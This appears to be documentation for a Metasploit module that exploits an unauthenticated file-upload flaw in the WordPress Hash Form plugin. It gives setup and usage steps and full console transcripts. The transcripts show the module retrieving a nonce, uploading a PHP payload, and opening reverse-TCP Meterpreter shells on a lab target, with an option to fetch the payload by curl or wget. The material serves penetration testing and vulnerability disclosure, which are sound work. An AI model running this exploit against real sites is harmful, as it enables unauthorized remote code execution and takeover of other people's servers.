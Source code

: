 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in WordPress Hash Form
plugin, versions prior to 1.1.1.
The vulnerability is due to an unauthenticated file upload flaw in the plugin.
To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Hash Form plugin, ensuring the version is below 1.1.1.
3. Verify that the plugin is activated and accessible on the local network.
4. Create any form

## Verification Steps

1. Set up a WordPress instance with the Hash Form plugin (version < 1.1.1).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_hash_form_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No option

## Scenarios

### Successful Exploitation Against Local WordPress with Hash Form 1.10

**Setup**:

- Local WordPress instance with Hash Form version 1.1.0.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_hash_form_rce
```
3. Set `RHOSTS` to the local IP (e.g., 192.168.1.11).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`

```
msf6 > search wp_hash_form_rce

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_hash_form_rce    2024-05-23       excellent  Yes    WordPress Hash Form Plugin RCE
   1    \_ target: Automatic                 .                .          .      .
   2    \_ target: PHP In-Memory             .                .          .      .
   3    \_ target: Unix/Linux Command Shell  .                .          .      .
   4    \_ target: Windows Command Shell     .                .          .      .


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/wp_hash_form_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command Shell'

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_hash_form_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_hash_form_rce) > set rport 8080
rport => 8080
msf6 exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: c037ee0b47
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to http://localhost:8080/wp-content/uploads/hashform/temp/zumchnzt.php
[*] Triggering the payload at http://localhost:8080/wp-content/uploads/hashform/temp/zumchnzt.php...
[*] Sending stage (39927 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.20.0.3:52596) at 2024-05-28 17:52:51 +0200

meterpreter > sysinfo 
Computer    : 92b664be9b0c
OS          : Linux 92b664be9b0c 5.15.0-91-generic #101-Ubuntu SMP Tue Nov 14 13:30:08 UTC 2023 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      KtElgOyozC       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       5555             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: c037ee0b47
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to http://localhost:8080/wp-content/uploads/hashform/temp/roeylnhj.php
[*] Triggering the payload at http://localhost:8080/wp-content/uploads/hashform/temp/roeylnhj.php...
[*] Sending stage (3045380 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.20.0.3:53478) at 2024-05-28 18:03:35 +0200

meterpreter > sysinfo
Computer     : 172.20.0.3
OS           : Debian 12.5 (Linux 5.15.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.
